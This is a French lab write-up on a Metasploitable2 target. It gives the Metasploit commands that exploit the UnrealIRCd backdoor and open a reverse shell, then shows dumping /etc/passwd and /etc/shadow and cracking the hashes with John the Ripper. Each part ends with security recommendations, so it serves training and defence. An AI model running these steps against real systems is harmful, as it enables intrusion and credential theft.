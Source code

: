 # Exploitation d'UnrealIRCd avec Metasploit

### Commandes à exécuter sur la console Kali

```bash
msfconsole
search ircd
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 10.6.0.7
set RPORT 6667
set PAYLOAD cmd/unix/reverse
set LHOST 10.6.0.9
run
```
*Astuces:*
Mettre en background : Ctrl + Z <br>
Reprendre sessions <br>
session + (numero id)

## Recommandation de sécurité
- Désinstaller UnrealIRCd et supprimer les fichiers de configuration compromis
- Télécharger et installer une version sécurisée depuis le site officiel
- Autoriser uniquement des IP spécifiques
- Désactiver les connexions anonymes
- Activation des logs et supervision
- Activer la journalisation des connexions et surveiller les accès
- Bloquer les connexions IRC non autorisées
- Installer fail2ban pour limiter les tentatives de connexion suspectes


# Déchiffrer le hash des mots de passe

```bash
# Metasploit
cat /etc/passwd # copier coller dans un fichier passwd.dmp sur la Kali

# Kali
cat /etc/shadow # copier coller dans un fichier shadow.dmp sur la Kali

unshadow passwd.dmp shadow.dmp > credentials

cat /usr/share/wordlists/metasploitable2 # Fichier avec les mots de passe (attention, éviter les caractère type "@")

john --wordlist=/usr/share/wordlists/metasploitable2 credentials

```

![Déchiffrement du hash MD5](Images/dechiffrement_hash_mdp.png)

> Note : <br>
> Nous sommes dans un cas particulier mais la commande standard ressemble plus à cela :
```bash
 john --wordlist=/usr/share/wordlists/metasploitable2 --format=sha512crypt credentials 
```

 ## Recommandation de sécurité
- Utiliser des fonctions de hachage sécurisées (ex. : bcrypt, scrypt, Argon2)
- Ajouter un sel (= donnée aléatoire) unique à chaque mot de passe
- Imposer des règles strictes sur les mots de passe (longueur minimale, complexité)
- Restreindre l’accès aux fichiers sensibles (notamment /etc/shadow et /etc/passwd)
- Surveiller l’accès aux systèmes (avec IDS et alertes)
- Utiliser l’authentification multi-facteurs (MFA)
- Maintenir les systèmes à jour